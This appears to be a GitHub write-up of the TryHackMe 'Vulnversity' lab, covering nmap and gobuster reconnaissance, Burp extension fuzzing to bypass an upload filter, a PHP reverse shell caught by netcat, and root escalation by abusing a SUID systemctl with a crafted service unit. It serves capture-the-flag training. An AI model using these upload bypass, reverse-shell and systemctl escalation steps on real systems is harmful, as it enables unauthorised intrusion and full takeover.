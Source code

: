 [![Needed-Burp](https://img.shields.io/badge/Needed-Burp-orange)](https://portswigger.net/burp)
[![Needed-GoBuster](https://img.shields.io/badge/Needed-gobuster-brightgreen)](https://github.com/OJ/gobuster)
[![Needed-nmap](https://img.shields.io/badge/Needed-nmap-blue)](https://nmap.org/)
[![Needed-netcat](https://img.shields.io/badge/Needed-netcat-lightgrey)](https://nc110.sourceforge.io/)

# Vulnversity

## Reconnaissance
### Port scanning
First step in every challenge is reconnaissance.<br>
We can find out which ports are open and which software is running on them using the program nmap with the `-sV` option (finds out the version of the programs listening on the  open ports):
```
┌──(kali㉿kali)-[~]
└─$ nmap -sV $TARGET_IP
Host is up (0.052s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

From the scan we can see that there are several open ports, but we'll start with the http server running on port 3333 (as we will see it's actually vulnerable). Another useful information that we got through nmap is that the server is probably running Ubuntu, so we will have to exploit a Linux system.

### Port 3333: Website exploration
Opening on the browser the address `http://$TARGET_IP:3333` we obtain the homepage of a website. While we explore the surface through the browser we launch a dir scan with gobuster:
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://$TARGET_IP:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.132.26:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/24 15:15:53 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 320] [--> http://10.10.132.26:3333/images/]
/css                  (Status: 301) [Size: 317] [--> http://10.10.132.26:3333/css/]
/js                   (Status: 301) [Size: 316] [--> http://10.10.132.26:3333/js/]
/fonts                (Status: 301) [Size: 319] [--> http://10.10.132.26:3333/fonts/]
/internal             (Status: 301) [Size: 322] [--> http://10.10.132.26:3333/internal/]
```

We can see now a uncommon directory: `/internal`. Visiting it we get to a upload form `/internal/index.php`.<br>

Repeating the process with `/internal` we discover the subdirectory `/internal/uploads`.

## Gaining access
### Fuzz our way in
Trying to upload some random file as a test we notice that all downloaded files will be refused by the site. At this point we should fuzz the upload request and discover the accepted extensions.<br>
To do this we can use Burp Suite's intruder: intercepting an upload request we can send it to the intruder and add a list of items to test in sniper mode. The string to fuzz has to be delimited by the characters `§.ext§`.<br>
In our case the file extension list is given by the challenge creators and it's pretty short:
```
.php
.php3
.php4
.php5
.phtml
```

The request seen from the intruder should look like this:
![The intruder view](./burp_fuzz.png "The fuzz request from burp. Taken from TryHackMe")

All the requests will receive a 200 as response status, but only .phtml will have a different response length, so we can assume and then test that .phtml files can be uploaded.<br>

### Get a reverse shell
Since we can upload a code file why not try upload a [reverse shell](./php-reverse-shell.phtml)? Remember to change IP and port to match yours!<br>
Before upload we set our pc to listen on port 1234 with `netcat -lvnp 1234`, then we upload the reverse shell, open from browser `/internal/uploads` and select the reverse shell from the list of uploaded files. On the terminal with netcat we will find our shell:
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234          
listening on [any] 1234 ...
connect to [10.18.20.168] from (UNKNOWN) [10.10.183.143] 48266
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 09:05:15 up 46 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We can find out the computer user by visiting `/home`, which contains the home directories of the pc users. The user flag will be in `/home/bill/user.txt`.

## Privilege escalation
In linux there's a special type of file permission: SUID.
```
SUID mode gives the executing file his owners privileges, instead of the one of the runner; which means that if the owner is root, the executables will run with root privileges
```

Given that we need to search for SUID executables on the machine with the following command:
```
find / -perm -u=s -type f 2>/dev/null
```

Between this files theres `/bin/systemctl`, which is the executable responsible for starting, enabling and stopping the services on the machine.<br>
To read the root flag in `/root/root.txt` we can create and run a process which will read it while having root privileges and put it in a file.
```
www-data@vulnuniversity:/$ TF=$(mktemp).service
www-data@vulnuniversity:/$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' >$TF 
www-data@vulnuniversity:/$ /bin/systemctl link $TF                                                                                              
Created symlink from /etc/systemd/system/tmp.M0ESakgCCs.service to /tmp/tmp.M0ESakgCCs.service.
www-data@vulnuniversity:/$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.M0ESakgCCs.service to /tmp/tmp.M0ESakgCCs.service.
www-data@vulnuniversity:/$ cat /tmp/output
*******************************
```

In the same way we got the flag we can get a root reverse shell!
